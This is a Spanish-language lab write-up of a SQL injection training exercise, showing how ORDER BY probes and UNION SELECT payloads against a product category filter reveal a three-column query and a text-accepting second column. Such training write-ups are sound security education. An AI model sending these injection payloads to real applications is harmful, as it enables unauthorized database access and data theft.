




# 💉 Ataque UNION: encontrando columnas con texto

### 📄 Descripción del laboratorio

Este laboratorio contiene una vulnerabilidad de **inyección SQL en el filtro de categoría de productos**.

Los resultados de la consulta se reflejan directamente en la respuesta de la aplicación, lo que permite realizar ataques **UNION SELECT** para insertar datos adicionales en el resultado.

🎯 **Objetivo del laboratorio:**

* Identificar qué columna de la consulta acepta **datos de tipo texto**
* Utilizar `UNION SELECT` para mostrar un valor arbitrario en esa columna


### 📚 Teoría

Después de descubrir el número de columnas de la consulta (paso realizado en el laboratorio anterior), el siguiente paso consiste en identificar **qué columnas son compatibles con texto**.

Esto es necesario porque:

```
las columnas pueden tener tipos de datos distintos
no todas aceptan valores de tipo string
```

Si se intenta insertar texto en una columna numérica o de fecha, la base de datos generará un error.

El procedimiento habitual es:

```
1. Determinar el número de columnas con ORDER BY
2. Usar UNION SELECT con valores NULL
3. Sustituir NULL por texto en cada columna
4. Identificar dónde aparece el texto en la respuesta
```

La columna donde se visualice el valor insertado será la que acepte **datos de tipo texto**.

Esta columna se utilizará posteriormente para extraer información sensible de la base de datos.


### 📝 Práctica

### 1️⃣ Identificar el número de columnas

Interceptamos la petición y la enviamos a **Burp Repeater**.

Probamos con `ORDER BY`:

```
/filter?category=' ORDER BY 1--
```

Funciona correctamente.

```
/filter?category=' ORDER BY 2--
```

Funciona correctamente.

```
/filter?category=' ORDER BY 3--
```

Funciona correctamente.

```
/filter?category=' ORDER BY 4--
```

El servidor devuelve un error.

<br>

Conclusión:

```
La consulta original devuelve 3 columnas
```


### 2️⃣ Probar la primera columna

Ahora utilizamos `UNION SELECT` para probar dónde puede insertarse texto.

Probamos en la primera columna:

```
/filter?category=' UNION SELECT 'abcdef',NULL,NULL--
```

<br>

El servidor devuelve un error.

Esto indica que la primera columna **no acepta texto**.


### 3️⃣ Probar la segunda columna

Probamos ahora en la segunda columna:

```
/filter?category=' UNION SELECT NULL,'abcdef',NULL--
```

<br>

La respuesta muestra una fila adicional con el valor:

```
abcdef
```

Esto confirma que **la segunda columna acepta texto**.


### 4️⃣ Resolver el laboratorio

Utilizamos el mismo payload con el valor aleatorio proporcionado por el laboratorio.

Ejemplo:

```
/filter?category=' UNION SELECT NULL,'abcdef',NULL--
```

La respuesta incluye la fila adicional con el valor inyectado.




### 5️⃣ Resultado

Se consigue:

* Identificar que la consulta original devuelve **3 columnas**
* Determinar que **la segunda columna acepta texto**
* Inyectar un valor arbitrario mediante `UNION SELECT`

✅ **Laboratorio resuelto.**
